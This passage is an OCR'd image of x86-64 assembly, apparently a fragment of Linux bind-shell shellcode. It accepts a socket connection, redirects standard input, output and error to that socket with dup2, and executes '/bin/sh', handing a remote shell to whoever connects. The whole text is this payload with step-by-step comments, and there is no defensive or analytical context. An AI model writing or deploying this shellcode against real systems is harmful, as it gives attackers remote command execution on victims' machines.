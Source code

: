 ```s
    xor     rsi, rsi        ; addr = NULL
    xor     rdx, rdx        ; addrlen = NULL
    mov     rax, 0x2b       ; sys_accept = 43
    syscall
    mov     r13, rax        ; r13 = client socket fd

    ; ------------------------------------------------
    ; Redirect STDIN(0), STDOUT(1), STDERR(2) to socket
    ; dup2 loop: dup2(clientfd, 0); dup2(clientfd, 1); dup2(clientfd, 2);
    ; syscall: rax = 0x21 (33), rdi = oldfd (clientfd), rsi = newfd
    ; ------------------------------------------------
    mov     rdi, r13        ; clientfd
    xor     rsi, rsi        ; start with STDIN (0)

    ; STDIN
    mov     rax, 0x21       ; dup2 syscall = 33 (0x21)
    syscall

    ; STDOUT
    mov     rdi, r13        ; clientfd
    mov     rsi, 1          ; STDOUT = 1
    mov     rax, 0x21
    syscall

    ; STDERR
    mov     rdi, r13        ; clientfd
    mov     rsi, 2          ; STDERR = 2
    mov     rax, 0x21
    syscall

    ; ------------------------------------------------
    ; execve("/bin/sh", ["/bin/sh", NULL], NULL)
    ; ------------------------------------------------
    xor     rax, rax        ; clear RAX

    ; Push NULL terminator for string and arrays
    push    rax

    ; Push "/bin/sh" string
    mov     rbx, 0x68732f6e69622f  ; "/bin/sh" in hex
    push    rbx

    mov     rdi, rsp        ; RDI points to "/bin/sh"

    ; Prepare execve arguments
    push    rax             ; NULL terminator for argv
    mov     rdx, rsp        ; envp = NULL
    
    push    rdi             ; argv[0] = pointer to "/bin/sh"
    mov     rsi, rsp        ; argv
    
    mov     rax, 0x3b       ; execve syscall = 59 (0x3b)
    syscall
```
